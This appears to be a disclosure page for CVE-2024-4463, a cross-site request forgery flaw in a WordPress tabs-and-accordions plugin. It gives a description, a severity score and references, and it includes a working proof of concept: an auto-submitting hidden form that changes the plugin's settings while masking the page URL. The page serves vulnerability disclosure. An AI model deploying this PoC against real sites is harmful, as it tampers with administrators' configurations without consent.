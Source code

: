 ```yaml
---
layout: page
title: CVE-2024-4463
subtitle: Squelch Tabs and Accordions Shortcodes <= 0.4.7 - Cross-Site Request Forgery
---
```

## Description
The Squelch Tabs and Accordions Shortcodes plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.4.7. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to modify plugin settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 0.4.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/themes.php?page=squelch-tabs-and-accordions-shortcodes" method="POST">
      <input type="hidden" name="jquery&#95;ui&#95;theme" value="smoothness" />
      <input type="hidden" name="disable&#95;magic&#95;url" value="on" />
      <input type="hidden" name="vanity&#95;url" value="eneri" />
      <input type="hidden" name="submitted" value="1" />
      <input type="hidden" name="submit" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3082482%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&old=3067680%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&sfp_email=&sfph_mail=
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/squelch-tabs-and-accordions-shortcodes/squelch-tabs-and-accordions-shortcodes-047-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4463





